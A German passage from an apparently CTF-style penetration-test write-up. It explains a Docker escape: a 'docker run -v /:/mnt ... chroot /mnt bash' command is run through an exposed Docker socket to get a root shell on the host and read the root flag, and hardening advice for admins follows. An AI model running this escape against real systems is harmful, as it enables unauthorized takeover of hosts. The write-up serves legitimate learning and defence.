Analyse: Als Root im HFS-Container (`root-39cfe3c81ea8`) werden Docker-Befehle ausgeführt. Dies impliziert, dass der Docker-Socket (`/var/run/docker.sock`) in den HFS-Container gemountet ist oder der Container anderweitig die Berechtigung hat, mit dem Docker-Daemon auf dem Host zu interagieren. 1. `docker ps`: Listet die laufenden Container auf dem Host-System auf. Wir sehen den HFS-Container selbst (`docker-hfs-hfs-1`), einen MySQL-Container (`docker-wp-db`) und den WordPress-Container (`docker-wp-wordpress`). 2. `docker run -v /:/mnt --rm -it ubuntu:20.04 chroot /mnt bash`: Dieser Befehl ist der Schlüssel zur Kompromittierung des Hosts: - `docker run ... ubuntu:20.04`: Startet einen neuen Docker-Container basierend auf dem `ubuntu:20.04`-Image. - `-v /:/mnt`: Dies ist der kritische Teil. Es mountet das gesamte Root-Dateisystem (`/`) des Host-Systems in das Verzeichnis `/mnt` innerhalb des neuen Containers. - `--rm`: Entfernt den Container automatisch nach dem Beenden. - `-it`: Startet den Container im interaktiven Modus mit einer TTY. - `chroot /mnt bash`: Führt `chroot /mnt` aus, was das Root-Verzeichnis des neuen Containers effektiv auf das gemountete Host-Root-Verzeichnis (`/mnt`) ändert. Dann wird eine `bash`-Shell gestartet. Innerhalb dieser neuen Shell (die nun eine Root-Shell auf dem Host-Dateisystem ist) werden folgende Befehle ausgeführt: - `id`: Bestätigt erneut Root-Rechte. - `cd /root`: Wechselt in das `/root`-Verzeichnis des Hosts. - `ls`: Listet den Inhalt von `/root` auf und zeigt `root.txt`. - `cat root.txt`: Gibt den Inhalt der Root-Flag aus.
Bewertung: Absoluter Erfolg und vollständige Systemkompromittierung! Durch den gemounteten Docker-Socket oder eine äquivalente Berechtigung konnte vom HFS-Container aus ein neuer, privilegierter Container gestartet werden, der das gesamte Dateisystem des Hosts einbindet. Dies ermöglichte den direkten Zugriff auf das `/root`-Verzeichnis des Hosts und das Auslesen der `root.txt`. Dies ist ein klassischer Docker-Ausbruchsszenario, wenn Container zu viele Rechte haben oder der Docker-Socket ungesichert in Container gemountet wird.
Empfehlung (Pentester):
Ziel erreicht! Beide Flags (User und Root) wurden erfolgreich erbeutet. Dokumentieren Sie den genauen Pfad der Kompromittierung, insbesondere den Docker-Ausbruch.
Empfehlung (Admin):
**Dies ist eine kritische Fehlkonfiguration!**
1. **Niemals den Docker-Socket (`/var/run/docker.sock`) ungesichert in Container mounten**, es sei denn, es ist absolut unumgänglich und die Sicherheitsimplikationen sind vollständig verstanden und mitigiert. Zugriff auf den Docker-Socket ist äquivalent zu Root-Rechten auf dem Host.
2. Führen Sie Container nicht mit unnötigen Privilegien aus (vermeiden Sie `--privileged`, es sei denn, es ist zwingend erforderlich und sicher).
3. Verwenden Sie Sicherheitsmechanismen wie SELinux oder AppArmor, um die Aktionen von Containern weiter einzuschränken.
4. Überprüfen Sie regelmäßig die Docker-Konfigurationen und laufenden Container auf solche Fehlkonfigurationen.
5. Segmentieren Sie Docker-Netzwerke und beschränken Sie die Kommunikation zwischen Containern und dem Host auf das Notwendigste.